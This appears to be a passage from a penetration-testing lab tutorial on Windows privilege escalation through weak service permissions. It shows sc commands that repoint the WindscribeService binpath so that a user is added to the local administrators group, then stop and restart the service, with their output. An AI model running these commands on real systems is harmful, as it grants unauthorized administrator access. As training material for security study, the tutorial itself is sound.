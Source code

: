 Weak Permissions

```
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS

```

### Stopping Service

Next, we must stop the service, so the new `binpath` command will run the next time it is started.

Weak Permissions

```
C:\htb> sc stop WindscribeService

SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0

```

### Starting the Service

Since we have full control over the service, we can start it again, and the command we placed in the `binpath` will run even though an error message is returned. The service fails to start because the `binpath`
 is not pointing to the actual service executable. Still, the executable
 will run when the system attempts to start the service before erroring 
out and stopping the service again, executing whatever command we 
specify in the `binpath`.

Weak Permissions

```
C:\htb> sc start WindscribeService

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

```

### Confirming Local Admin Group Addition

Finally, check to confirm that our user was added to the local administrators group.

Weak Permissions
